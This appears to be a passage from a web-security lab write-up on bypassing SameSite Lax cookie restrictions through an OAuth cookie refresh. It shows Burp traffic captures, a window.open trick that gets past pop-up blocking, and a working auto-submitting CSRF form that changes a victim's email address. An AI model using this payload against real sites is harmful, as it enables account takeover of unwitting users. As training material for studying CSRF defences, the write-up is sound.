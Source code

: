An alternative method is to launch the cookie refresh in a __new tab__, allowing you to preserve the original page for your follow-up attack. The downside is that browsers block pop-up labs unless triggered by a direct user action. For instance, running this directly will typically be blocked:

```
window.open('https://vulnerable-website.com/login/sso');
```

To work around this, wrap the `window.open()` call inside an `onclick` event, like so:

```
window.onclick = () => {
  window.open('https://vulnerable-website.com/login/sso');
};
```

This ensures the new tab opens only after the user click on the page, satisfying the browser's requirement for user interaction. 

### Lab: SameSite Lax bypass via cookie refresh

In Burp's browser, log in via your social media account with credentials `wiener:peter` and change your email address. Find the `POST /my-account/change-email` request in __Proxy__ > __HTTP History__: 

```
POST /my-account/change-email HTTP/2
...
email=attacker%40fakemail.com
```

Notice that it does not contain any unpredictable tokens, so it may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions. 

Find `GET /oauth-callback?code=[...]` request in __Proxy__ > __HTTP History__ and check its response. 

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=szr3DcM0S13RyB3O9eYBwEEsRgwDQiy0; Expires=Sat, 26 Apr 2025 15:17:11 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 2948
```

Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `LAX` restriction level.

In the browser, go to the exploit server. Create a basic CSRF attack for changing the victim's email address:

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

